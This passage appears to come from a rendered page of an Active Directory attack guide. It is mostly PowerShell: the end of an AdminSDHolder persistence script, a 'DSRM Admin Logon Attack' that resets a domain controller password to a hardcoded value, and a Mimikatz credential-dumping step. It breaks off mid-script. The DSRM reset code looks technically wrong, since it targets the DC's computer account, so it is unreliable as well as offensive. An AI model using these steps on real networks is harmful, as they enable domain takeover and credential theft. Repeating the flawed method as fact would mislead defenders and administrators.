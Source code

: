 ```powershell
    Write-Host "Malicious user now has persistent access to all protected objects" -ForegroundColor Red
    
} else {
    Write-Host "User does not have write access to AdminSDHolder" -ForegroundColor Red
}
```

### **DSRM Admin Logon**

#### **What is DSRM?**
**Directory Services Restore Mode (DSRM)** is a special boot mode for Domain Controllers that allows administrators to restore Active Directory from backup or repair corrupted databases. DSRM uses a local administrator account that exists independently of Active Directory.

#### **DSRM Admin Logon Attack**
```powershell
# Objective: Use DSRM admin credentials to access domain controller
# Impact: Direct access to domain controller and Active Directory database

Write-Host "=== DSRM ADMIN LOGON ATTACK ===" -ForegroundColor Red

# Step 1: Check if DSRM password is set
# This requires physical or console access to the domain controller
Write-Host "DSRM attack requires physical/console access to domain controller" -ForegroundColor Yellow
Write-Host "Cannot be performed remotely via PowerShell" -ForegroundColor Red

# Step 2: DSRM password reset (if we have domain admin access)
$dcName = "DC01.corp.local"
$dsrmPassword = "NewDSRMPassword123!"

try {
    # Reset DSRM password
    $dc = Get-ADDomainController -Identity $dcName
    Set-ADAccountPassword -Identity $dc.Name -Reset -NewPassword (ConvertTo-SecureString -AsPlainText $dsrmPassword -Force)
    
    Write-Host "Successfully reset DSRM password for $dcName" -ForegroundColor Green
    Write-Host "New DSRM password: $dsrmPassword" -ForegroundColor Red
    
} catch {
    Write-Host "Failed to reset DSRM password: $($_.Exception.Message)" -ForegroundColor Red
}
```

#### **DSRM Admin Logon via Mimikatz**
```powershell
# Alternative: Use Mimikatz to interact with DSRM
# This requires local access to the domain controller

Write-Host "=== DSRM ADMIN LOGON VIA MIMIKATZ ===" -ForegroundColor Red

# Step 1: Check if we're on a domain controller
$isDC = (Get-WmiObject -Class Win32_ComputerSystem).DomainRole
if($isDC -eq 5) {
    Write-Host "Running on Domain Controller - DSRM attack possible" -ForegroundColor Green
    
    # Step 2: Attempt DSRM logon via Mimikatz
    Write-Host "Attempting DSRM logon..." -ForegroundColor Yellow
    
    # Note: This requires the DSRM password to be known
    # Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```
